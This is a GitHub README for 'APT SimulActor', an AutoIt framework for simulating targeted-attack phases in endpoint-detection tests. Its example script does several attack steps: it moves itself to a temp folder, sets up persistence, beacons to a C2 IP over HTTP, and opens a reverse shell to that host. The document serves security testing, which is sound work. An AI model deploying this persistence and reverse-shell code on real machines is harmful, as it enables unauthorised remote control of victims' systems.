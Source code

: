 # APT SimulActor

## Introduction

Targeted attacks are not random in nature and are usually composed of different phases like infection, data exfiltration and persistency.
APT SimulActor is a little framework based on AutoIT libraries for basic EDR POCs.

## Example Code
```
#include "libs/settings.au3"
#include "libs/network.au3"
#include "libs/info.au3"
#include "libs/misc.au3"

$victim = "john"
$c2_ip = "192.168.231.106"
$c2_port = "444"
$timer = 60

init()

if InternetCheck() Then

   If numberOfLogins(whoami()) > 2 Then

	  Move2Temp()

	  SetPersistent4CurrentUser()

	  While $timer > 0

		 HttpPost($c2_ip, "Timer:", $timer)
		 Sleep(1000)
 		 $timer = $timer - 1

	  WEnd

	  ReverseShell($c2_ip, $c2_port)

   EndIf

EndIf
```



## Prerequisites

AutoIt Downloads [link](https://www.autoitscript.com/site/autoit/downloads/)
